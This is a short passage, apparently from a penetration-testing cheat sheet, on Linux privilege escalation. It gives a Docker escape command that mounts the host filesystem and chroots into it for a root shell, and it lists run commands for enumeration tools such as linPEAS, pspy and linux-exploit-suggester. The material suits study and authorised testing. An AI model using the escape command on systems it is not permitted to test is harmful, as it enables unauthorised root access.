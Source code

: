 - > list images

```
docker images

```

- > Exploitation

```
docker run -it -v /:/host/ <image>:<tag> chroot /host/ bash

```

### Linux Enumeration Tools [PrivEsc]

- > Linpeas

```
./linpeas.sh

```

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

- > pspy (unprivileged Linux process snooping)

```
./pspy64

```

https://github.com/DominicBreuker/pspy

- > linux-exploit-suggester

```
./linux-exploit-suggester.sh

```

or

```
./linux-exploit-suiggester.sh --uname <uname-string>

```

https://github.com/The-Z-Labs/linux-exploit-suggester

- > Unix Privesc Check

```
./unix-privesc-check

```

https://pentestmonkey.net/tools/audit/unix-privesc-check
